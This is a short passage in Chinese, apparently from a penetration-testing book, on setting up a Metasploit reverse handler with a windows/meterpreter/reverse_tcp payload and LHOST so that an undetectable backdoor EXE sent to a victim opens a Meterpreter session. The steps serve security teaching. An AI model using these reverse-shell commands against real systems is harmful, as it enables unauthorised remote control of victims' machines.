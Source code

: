 然后只需在此处理程序中设置所有载荷细节并将其发送给受害者。例如，键入`set PAYLOAD <your payload name>`；在这里，我们使用`set PAYLOAD windows/meterpreter/reverse_tcp`。

![创建一个完全不可检测的后门](img/3589_10_25.jpg)

之后，设置您为后门 EXE 文件提供的本地主机地址。例如，键入`set LHOST <IP 地址>`；在这里，我们使用`set LHOST 192.168.0.103`。

![创建一个完全不可检测的后门](img/3589_10_26.jpg)

这是利用利用技术进行攻击的最后一种类型，我们将看到我们的反向处理程序连接已准备好接收连接。

![创建一个完全不可检测的后门](img/3589_10_27.jpg)

执行后门后，反向连接将成功建立，并且在攻击者的系统上将生成一个 Meterpreter 会话。

![创建一个完全不可检测的后门](img/3589_10_28.jpg)
